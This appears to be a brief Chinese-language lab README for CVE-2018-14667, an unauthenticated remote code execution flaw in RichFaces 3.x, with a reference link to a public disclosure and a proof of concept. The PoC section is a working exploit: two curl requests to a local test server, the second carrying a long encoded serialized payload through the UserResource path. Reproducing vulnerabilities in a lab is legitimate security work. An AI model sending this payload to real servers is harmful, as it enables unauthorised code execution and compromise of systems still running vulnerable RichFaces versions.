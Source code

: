 ## CVE-2018-14667 richfaces 远程代码执行

测试镜像

* src/richfaces/3.3.4/

参考资料 

* [Unauthenticated Remote Code execution in WebApps using Richfaces 3.X all versions (CVE-2018-14667)](https://seclists.org/fulldisclosure/2018/Nov/47)

Poc

```
curl 'http://127.0.0.1/photoalbum/index.seam' -L
curl 'http://127.0.0.1/photoalbum/a4j/s/3_3_3.Finalorg.ajax4jsf.resource.UserResource/n/n/DATA/eAFdUs9r1EAY!bpYrL9ArSgehBqL7YpMBGsRakFai1Z2LXStoB7k2-Tb7IRkZpyZtKml3rwoePHqzate7MGz14KX!g2CiAgiiFdnksXS5pJ84c17b9773v-EYaPhktQJwxTLqdT0mCYjCx0RWzGklwfD-Irmt9Ai-Gf02o8GHGjBsUgTWpqXwpKwFk62UlzFMEORhEvdlCI704KDVCruOJ!CcxhqwUguY97jFA!m4VXMCqqGUjkvFz1FyXoYkWGRzJUUjpt1rBO6I7OYdAdXST!c3pp98!ZLuwGNFhyKMjTmHua010PHai4S5-GwcWfiisPC6doll2GHNMeMP8NuRjOl8vITTpKZQlQGMrKGUcbuY9Im25fxQqncTQyXosoBYOgoQKnhbG3aQffjPobbr77-nXrdqHCj!3G7TO9evOz8frRzwyO8g!O-jLQrTSW9n28xV1n315k!Rz6faHttH9zI2ifYGt8IApaQnfdRTDZZT2ofyGRQS5pIc-VirF4LIuGC2igwIR00maC1RWEsiojcSUdSA-bWBwzGYcj1VJMx3y9bLoTlOXn04NMdpZKiyQkri6g!FtpchZpH!arKKzGuP0klyhytNL2JZtDcBCg0jD6u6qhJB4V92Hnw7fu5jdtVJC7phoVT!hqMS7ZUWFVYByTMLRyvfleG6oVTqlxrwd0w4bZfdP0ChbuqYUqlD3bs5tXpy9PXx!as72xwYSOnmOMcoWBKS7eAZjNwa6H-AZCFGGE_'
```
